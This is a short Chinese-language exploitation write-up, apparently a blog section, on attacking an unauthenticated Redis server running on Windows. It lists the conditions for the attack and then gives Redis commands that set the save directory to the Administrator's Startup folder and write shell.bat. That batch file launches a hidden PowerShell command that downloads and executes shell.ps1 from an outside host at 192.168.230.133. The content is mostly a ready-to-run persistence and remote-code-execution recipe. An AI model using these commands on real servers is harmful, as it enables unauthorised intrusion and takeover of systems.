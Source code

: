 :label:脚本在windows下同样可正常使用

![image-20210906140752391](/assets/images/20210911/image-20210906140752391.png)



## windows利用

### 利用条件

1. Redis部署于windows服务器内
2. 可未授权进行利用

### 复现过程

​	通过写入批处理文件至用户开机自启动目录下，内使用powershell进行远程下载并执行

```
config set dir "C:/Users/Administrator/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/startup/"

config set dbfilename shell.bat

set x "\r\n\r\npowershell -windowstyle hidden -exec bypass -c \"IEX (New-Object Net.WebClient).DownloadString('http://192.168.230.133/shell.ps1');xx.ps1\"\r\n\r\n"

 save
```
